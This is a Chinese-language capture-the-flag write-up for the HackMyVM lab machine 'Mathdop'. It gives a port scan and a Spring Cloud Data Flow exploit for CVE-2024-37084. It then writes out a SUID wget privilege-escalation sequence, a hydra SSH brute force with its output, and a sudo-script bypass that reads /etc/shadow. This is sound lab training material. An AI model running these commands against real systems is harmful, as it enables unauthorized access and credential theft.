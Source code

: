 ```yaml
---
title: "HackMyVM-Mathdop"
date: 2025-04-24
categories: 
  - "hackmyvm"
tags: 
  - "hackmyvm"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficult | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.55.13 -sV -A -p-

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 ac:78:16:74:49:a1:68:9d:54:84:8a:59:e9:38:10:bc (RSA)
|   256 06:0c:4d:9d:2c:32:43:d2:3d:f7:4f:82:c8:15:85:60 (ECDSA)
|_  256 3b:cd:fc:1f:dd:48:0f:ee:17:78:9a:f1:09:cb:8c:ec (ED25519)
7577/tcp open  http    Apache Tomcat (language: en)
| http-title: Site doesn't have a title (application/hal+json).
|_Requested resource was http://192.168.55.13:7577/api
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
9393/tcp open  http    Apache Tomcat (language: en)
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-title: Site doesn't have a title (application/hal+json).
```

## CVE-2024-37084

进入到**9393**端口的**dashboard**

![](./images/image-121.png)

经过搜索得知：[Ly4j/CVE-2024-37084-Exp: Spring Cloud Data Flow CVE-2024-37084 exp](https://github.com/Ly4j/CVE-2024-37084-Exp)

这里我使用的**kali**的**java**版本可能不对，生成的**jar**包无法完成反弹**shell**

于是**jar**包的制作我是在**windows**上进行的

需要注意的是，执行一次**poc**，就要给修改一次**jar**包的名称

![](./images/image-123.png)

![](./images/image-124.png)

![](./images/image-125.png)

![](./images/image-126.png)

## Docker break

当前环境是在**docker**里的，查找有**SUID**的文件

```
cnb@921567b128b2:/workspace$ find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
/bin/mount
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/local/bin/wget
```

可以利用**wget**进行提权：[wget | GTFOBins](https://gtfobins.github.io/gtfobins/wget/)

```
cnb@921567b128b2:/workspace$ TF=$(mktemp)
TF=$(mktemp)
cnb@921567b128b2:/workspace$ chmod +x $TF
chmod +x $TF
cnb@921567b128b2:/workspace$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
cnb@921567b128b2:/workspace$ /usr/local/bin/wget  --use-askpass=$TF 0                          
/usr/local/bin/wget  --use-askpass=$TF 0
whoami
root
id
uid=1000(cnb) gid=1000(cnb) euid=0(root) egid=0(root) groups=0(root),1000(cnb)
```

先查看一下留言

```
cat /home/cnb/note
Hi mathlake
Long time no see, 256 is my favorite number. I know you are very interested in mathematics, but I have been struggling with a math problem recently. The method used is time series decomposition. I have sent you the data, and you can provide me with the mathematical expressions for T, S, and C (rounded to the nearest integer) corresponding to the month.
June 2025

好久不见了，256是我最喜欢的号码。我知道你对数学很感兴趣，但最近我一直在努力解决一个数学问题。使用的方法是时间序列分解。我已经向您发送了数据，您可以为我提供与月份相对应的T、S和C（舍入到最接近的整数）的数学表达式。
2025年6月
```

进入到邮箱里拿到三个文件

```
cd /var/mail/mathlake
ls -al
total 28
drwx--S---. 2 root mail    55 Mar 12 01:47 .
drwxrwsr-x. 1 root mail    22 Mar 12 01:41 ..
-rw-r--r--. 1 root mail 10299 Mar  7 08:14 data.xlsx
-rw-r--r--. 1 root mail  3906 Mar 11 23:56 test.png
-rw-r--r--. 1 root mail  8815 Mar 11 23:58 true.png
```

可以转**base64**然后到本地又转回去，这样的方式来传递

```
cat data.xlsx | base64
```

可以看到三个数字的大小范围

![](./images/image-127.png)

![](./images/image-128.png)

因此可以写一个脚本来进行爆破

```
#!/bin/bash

output_file="sha256_results.txt"

for i in {40..60}; do
  for j in {0..2}; do
    for k in {0..2}; do
      echo  "${i}*${j}*${k}" | sha256sum >> "$output_file"
    done
  done
done
```

然后用**awk**取出第一列

```
[root@kali] /home/kali/mathdop  
❯ awk '{print $1}' sha256_results.txt > passwords
```

由于**/var/mail**中的用户名是**mathlake**，可以尝试用这个来进行爆破

```
[root@kali] /home/kali/mathdop  
❯ hydra -l mathlake -P passwords ssh://192.168.55.13 -I            
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 09:52:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 189 login tries (l:1/p:189), ~12 tries per task
[DATA] attacking ssh://192.168.55.13:22/
[22][ssh] host: 192.168.55.13   login: mathlake   password: 9bd29d2c90998b5af05b3fdf10d9ab4c9eff53f2a827fbc39247200874ab6ca3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```

## Root

```
[mathlake@mathdop ~]$ sudo -l
Matching Defaults entries for mathlake on mathdop:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User mathlake may run the following commands on mathdop:
    (ALL) NOPASSWD: /opt/secure_input_handler.sh
[mathlake@mathdop ~]$ cat /opt/secure_input_handler.sh 
#!/bin/bash
export PATH="/usr/bin"

read -p "Input Command: " user_input

decoded_input=$(echo -n "$user_input" | base64 -d 2>/dev/null | tr -d '\r\0\a' | col -b)
if [[ ${#user_input} -gt 128 || -z "$decoded_input" ]]; then
    echo "[!] Decoding failed or input is too long" >&2
    exit 2
fi

filtered_input=$(echo "$decoded_input" | tr -cd 'a-zA-Z0-9\-_/ :.' | sed -e 's/[[:space:]]\+/ /g' -e 's/^[ \t]*//' -e 's/[ \t]*$//')

IFS=' ' read -ra cmd_args <<< "$filtered_input"
command="${cmd_args[0]}"
command_clean=$(echo "$command" | tr -d -c 'a-zA-Z0-9')

allowed_commands=("date" "pwd" "echo")
if ! printf "%s\n" "${allowed_commands[@]}" | grep -qxF "$command_clean"; then
    echo "[!] Illegal instruction: $command_clean" >&2
    exit 3
fi

/usr/bin/timeout 2 /usr/bin/bash -c "${filtered_input}"
```

这里并不能执行命令，查看一下**/etc/shadow**

```
date -f /etc/shadow

ZGF0ZSAtZiAvZXRjL3NoYWRvdw==
```

这个就是**root**的密码

![](./images/image-129.png)

![](./images/image-130.png)

有点脑洞哈~

## Summary

`User`：**Spring**框架漏洞，**docker**逃逸，拿到邮箱里的东西，可以尝试爆破密码，登录到**mathdop**

`Root`：读取**/etc/shadow**里面的密码
